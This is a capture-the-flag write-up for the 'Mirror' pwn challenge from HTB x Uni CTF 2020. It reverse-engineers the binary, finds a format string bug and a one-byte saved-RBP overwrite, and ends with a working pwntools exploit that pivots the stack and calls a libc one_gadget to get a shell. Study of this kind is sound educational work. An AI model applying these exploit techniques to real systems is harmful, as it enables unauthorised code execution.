<pre style="font-size: 0.4rem; text-align: center">

                                                                              
                                                                              
                        MMMMMMMMMMMMMMM:                    :MMMMMMMMMMMMMM   
                    MMMMMMMMMMMMMMMMMMMMMMMM             MMMMMMMMMMMMMMMMMM   
                7MMMMMMMMMMMMMMMMMMMMMMMMMMMMMM        MMMMMMMMMMMMMMMMMMMM   
              MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM   MMMMMMMMMMMMMMMMMMMMMM   
            MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM$MMMMMMMM                  
          MMMMMMMMMM  ~MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM                    
         MMMMMMMM=      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM                      
       MMMMMMMM:         MMMMMMMMMMMMMMMMMMMMMMMMMMMMMM                       
      MMMMMMMM            MMMMMMMMMMMMMMMMMMMMMMMMMMMM                        
     MMMMMMM               MMMMMMMMMMMMMMMMMMMMMMMMMMM                        
    MMMMMMM                MMMMMMMMMMMMMMMMMMMMMMMMMMM                        
   MMMMMMM                 MMMMMMMMMMMMMMMMMMMMMMMMMMM                        
   MMMMMM                  NMMMMMMMMMMMMMMMMMMMMMMMMM                         
  MMMMMM     MMMMMM         MMMMMMMMMMMMMMMMMMMMMMMMM         MMMMM8          
  MMMMMM    MMMMMMMM         MMMMMMMMMMMMMMMMMMMMMMM         MMMMMMMM         
 MMMMMM     MMMMMMMM         =MMMMMMMMMMMMMMMMMMMMM         MMMMMMMMM         
 MMMMMM     MMMMMMMM          MMMMMMMMMMMMMMMMMMMMM          MMMMMMMM         
 MMMMM       MMMMMM            MMMMMMMMMMMMMMMMMMM           .MMMMMM          
MMMMMM                         IMMMMMMMMMMMMMMMMM                             
MMMMMM                          MMMMMMMMMMMMMMMMD                             
MMMMMM                           MMMMMMMMMMMMMMM                              
MMMMMM                            MMMMMMMMMMMMM                               
=MMMMM                            MMMMMMMMMMMMM                               
 MMMMMM                          +MMMMMMMMMMMMM                               
 MMMMMM                    MMMMMMMMMMMMMMMMMMMMMMMMMMM                        
 $MMMMM.                  MMMMMMMMMMMMMMMMMMMMMMMMMMMMM                       
  MMMMMM                  MMMMMMMMMMMMMMMMMMMMMMMMMMMMM                       
  $MMMMMM                 MMMMMMMMMMMMMMMMMMMMMMMMMMMMM                       
   MMMMMMM        MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM               
    MMMMMMM      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM               
     MMMMMMM      MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM               
      MMMMMMM             MMMMMMMMMMMMMMMMMMMMMMMMMMMMM                       
       MMMMMMMM           MMMMMMMMMMMMMMMMMMMMMMMMMMMMM                       
        MMMMMMMMM         MMMMMMMMMMMMMMMMMMMMMMMMMMMMM                       
         .MMMMMMMMM       MMMMMMMMMMMMMMMMMMMMMMMMMMMMM                       
           MMMMMMMMMMM   MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM                      
             MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM                    
               IMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM   MMMMMMMMMMMMMMMMMMMMMMMM   
                  OMMMMMMMMMMMMMMMMMMMMMMMMMM        MMMMMMMMMMMMMMMMMMMMMM   
                      7MMMMMMMMMMMMMMMMMM              MMMMMMMMMMMMMMMMMMMM   
                                                                      
</pre>

---

## First look
Mirror was a pwn challenge rated with 425 in the HTB x Uni CTF 2020 - Quals. Let's run it first



So the binary asks if we want to talk to the mirror, then shows us 2 addreses (?) and finally we can enter some data.

Not much (as always)

Let's start Cutter and begin looking for some information about what's going on.



We have the NX bit active and the PIC so the addresses are going to be random each time and the execute and storage areas are going to be separated

Let's see what the code can tell us!

## Let the inspection begin

### Main
First stop: main function. When we disassemble this function we can see the instructions that the program displayed and the read from the beginning. 



It's kinda weird that the read allows 0x1f bytes, that's a lot for a single char (maybe we can do something here?)

Let's move on. 

After that, it checks the fist byte from the read, that's the first letter, and compares it with 0x79 (y) or 0x59 (Y). If it isn't neither of them, it calls exit. 



First thing we know: we always have to put a **y** or **Y** as the first letter on that input.

After that, it gives the input back to us. Looking at the print functions (we know this because we executed it before and saw the *Your answer was* string) it doesn't look like it's performing a safe print of our string. This looks like a format string vulnerability. We will check that later.

Finally, it calls the reveal function. Next stop: reveal

### Reveal

The reveal function looks like this:



Now we know that those addresses were. We can see the buf address is put inside the RAX and later into the RSI register so the first address is the address of our input buffer. The second address goes to the rdx register from the printf function.

Then, we can put some data into the stack. 0x21 bytes exactly. But we can see that the stack in this function has a size of 0x20 (check the sub operation at the beginning of the function). So we can override one byte of the address that the RBP, i.e. the base pointer of the stack, is going to take after we left the function.

## What now?

After looking at the binary we know:

- It looks like there is some kind of format string vulnerability at the first read. Remember that the first letter has to be a y or Y.
- We know the address of the buffer where we are going to put our final data
- We know the address of the printf so we can figure out what the base address of glibc is
- We can override one byte of the base stack address when we left the reveal function

My main approach at this point is to use ROP to generate a shell. This is because the program is giving us the address of the printf and we know the address where our data is going to be. 

## What about the format string?

Even though I didn't need it for my exploit there was a format string vulnerability in the code.



We could probably find a way to exploit this vulnerability but it wasn't necessary for the exploit we want to perform.

## The exploit

This is the idea: we are going to use ROP when the main function returns and use glibc to get a shell.

The target here is to put the RSP address on our input so when it returns we can jump wherever we want, you know, ROP.

The trick here is that one byte we can override on the reveal call.

Let's break it down. This is how the stack looks on the reveal function:


And we know the address of our input, which is right above the RBP return address. Remember we can override one byte of that address so we can point it back to our leaked address. 

>Remeber that address are read backwards



>There are going to be times when this doesn't work. When the 2nd byte changes, this won't work because we cannot reach the desired address

But, I said we wanted the RSP to be on that address. And we have the RBP, not the RSP. Well, remember that when leave executes, the RSP takes the previous RBP address + 8.

So, when we leave on the main function, our RSP will be on the address of our leaked input + 8. 


>You can modify the byte to be the byte it should be - 8 so the final RSP value is on the beginning of the leaked address but it's easy to explain it this way

Nice, we redirected the execution! 

## Pwn it

So, we know we have to send 0x20 bytes (which will be our ROP) and finally the last byte from the leaked address.

Let's build the ROP payload.

### ROP

First things first, we must know the glibc version. We are going to use the [libc database](https://libc.nullbyte.cat/) to make our job easier.

When we put the printf address on the page, we get a bunch of hits but only one is for x64. Ubuntu GLIBC 2.27-3ubuntu1.3.

I usually use the amazing tool called [one_gadget](https://github.com/david942j/one_gadget) which provides a simple and easy way to exploit a ROP vulnerability.

When we execute it against the libc.so.6 file we get the following results:



Let's write those address down so we can check if something works for us.

### Final exploit

First, we are going to use python3 and pwntools to easily send everything we need.

```python
from pwn import *
import os

p = process('./mirror')
#p = remote('_________', ____)
libc = ELF('./libc.so.6')
binary = ELF('./mirror')
```

Let's answer the first question

```python
print(p.recvuntil('>'))
p.sendline('y')
print(p.recvuntil('"'))
```

Now, receive the addresses:

```python
data = p.recvuntil('"').decode()
base_address = data[36:-1].split(' ')[0][1:-1]
libc_leak = int(data[36:-1].split(' ')[1][1:-1], base=16)
```

We can calculate the base libc address with:

```python
libc_base = libc_leak - libc.symbols["printf"]
```

Now, we now what byte we have to modify on that RBP address:

```python
to_change = int("0x" + base_address[-2:], base=16)
to_change =  bytes(chr(to_change), encoding="UTF-8")
```

Everything is ready. Let's send the base address we got so the RBP gets a real address when execute leave on the main function, our one_gadget first address with the libc base added and 16 Bs to fill the 0x20 bytes plus our final byte to change.

```python
one_gadget_1 = 0x4f3d5
p.send(p64(int(base_address, base=16)) + p64(libc_base + one_gadget_1) + bytes('B' * 16, encoding="UTF-8") + to_change)
p.interactive()
```

We send it and....
pwned!



> I didn't screenshot the remote shell so this is running locally :S

---
That's all!


**See you on the debugger!**


